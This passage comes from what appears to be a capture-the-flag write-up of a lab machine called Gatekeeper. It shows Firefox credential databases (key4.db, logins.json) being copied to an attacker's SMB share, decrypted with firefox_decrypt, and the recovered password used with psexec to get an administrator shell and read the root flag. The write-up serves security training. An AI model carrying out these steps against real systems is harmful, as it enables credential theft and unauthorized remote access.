04/21/2020  10:50 PM    <DIR>          gmp-gmpopenh264
04/21/2020  10:50 PM    <DIR>          gmp-widevinecdm
04/21/2020  05:00 PM               540 handlers.json
04/21/2020  05:02 PM           294,912 key4.db
05/14/2020  10:43 PM               600 logins.json
04/21/2020  05:00 PM    <DIR>          minidumps
05/14/2020  10:23 PM                 0 parent.lock
05/14/2020  10:25 PM            98,304 permissions.sqlite
04/21/2020  05:00 PM               506 pkcs11.txt
05/14/2020  10:45 PM         5,242,880 places.sqlite
05/14/2020  10:45 PM            11,096 prefs.js
05/14/2020  10:45 PM            65,536 protections.sqlite
05/14/2020  10:45 PM    <DIR>          saved-telemetry-pings
05/14/2020  10:23 PM             2,715 search.json.mozlz4
05/14/2020  10:45 PM                 0 SecurityPreloadState.txt
04/21/2020  10:50 PM    <DIR>          security_state
05/14/2020  10:45 PM               288 sessionCheckpoints.json
05/14/2020  10:45 PM    <DIR>          sessionstore-backups
05/14/2020  10:45 PM            12,889 sessionstore.jsonlz4
04/21/2020  05:00 PM                18 shield-preference-experiments.json
05/14/2020  10:45 PM             1,357 SiteSecurityServiceState.txt
04/21/2020  05:00 PM    <DIR>          storage
05/14/2020  10:45 PM             4,096 storage.sqlite
04/21/2020  05:00 PM                50 times.json
05/14/2020  10:45 PM                 0 TRRBlacklist.txt
04/21/2020  05:00 PM    <DIR>          weave
04/21/2020  05:02 PM            98,304 webappsstore.sqlite
05/14/2020  10:45 PM               140 xulstore.json
              33 File(s)     12,300,786 bytes
              14 Dir(s)  15,815,712,768 bytes free
```

In the local machine, we can set up a `smbserver` to receive the files. This will expose the current directory as a share.

```
$ smbserver.py share .
```

In the target machine, copy the files to the share on your attacking machine.
```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy cert9.db \\YOUR_IP\share
copy cert9.db \\10.18.54.90\share
        1 file(s) copied.

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy key4.db \\YOUR_IP\share
copy key4.db \\10.18.54.90\share
        1 file(s) copied.

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy logins.json \\YOUR_IP\share
copy logins.json \\10.18.54.90\share
        1 file(s) copied.
```

Git clone the Firefox Decrypt tool and run it against the folder where you downloaded the files. 
```
$ git clone https://github.com/unode/firefox_decrypt.git                                                     
Cloning into 'firefox_decrypt'...
remote: Enumerating objects: 1265, done.
remote: Counting objects: 100% (383/383), done.
remote: Compressing objects: 100% (83/83), done.
remote: Total 1265 (delta 325), reused 327 (delta 298), pack-reused 882
Receiving objects: 100% (1265/1265), 452.15 KiB | 985.00 KiB/s, done.
Resolving deltas: 100% (799/799), done.
                                                                                                                                                             
$ python firefox_decrypt/firefox_decrypt.py .
2023-05-01 14:21:13,200 - WARNING - profile.ini not found in .
2023-05-01 14:21:13,200 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '<redacted>'
```
This gives us some credentials 😃

## Root flag

We can use `psexec` to log into the server with the provided credentials.

```
psexec.py gatekeeper/mayor:<redacted>@10.10.56.33 cmd.exe
Impacket v0.10.1.dev1+20230413.195351.6328a9b7 - Copyright 2022 Fortra

[*] Requesting shares on 10.10.56.33.....
[*] Found writable share ADMIN$
[*] Uploading file npREhXuB.exe
[*] Opening SVCManager on 10.10.56.33.....
[*] Creating service Gmxm on 10.10.56.33.....
[*] Starting service Gmxm.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
The root flag is located in `C:\Users\mayor\Desktop\root.txt.txt`.

```
C:\Windows\system32> cd c:\users\mayor  
 
c:\Users\mayor> dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of c:\Users\mayor

04/19/2020  11:55 AM    <DIR>          .
04/19/2020  11:55 AM    <DIR>          ..
04/19/2020  11:55 AM    <DIR>          Contacts
05/14/2020  09:58 PM    <DIR>          Desktop
04/21/2020  04:16 PM    <DIR>          Documents
04/19/2020  11:55 AM    <DIR>          Downloads
04/19/2020  11:56 AM    <DIR>          Favorites
04/19/2020  11:55 AM    <DIR>          Links
04/19/2020  11:55 AM    <DIR>          Music
04/19/2020  11:55 AM    <DIR>          Pictures
04/19/2020  11:55 AM    <DIR>          Saved Games
04/19/2020  11:55 AM    <DIR>          Searches
04/19/2020  11:55 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  15,825,801,216 bytes free

c:\Users\mayor> cd Desktop
 
c:\Users\mayor\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of c:\Users\mayor\Desktop

05/14/2020  09:58 PM    <DIR>          .
05/14/2020  09:58 PM    <DIR>          ..
05/14/2020  09:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  15,825,801,216 bytes free

c:\Users\mayor\Desktop> type root.txt.txt
{<redacted>}
```

With this last step, we have finished the Gatekeeper room! I hope this guide may have been useful for you!
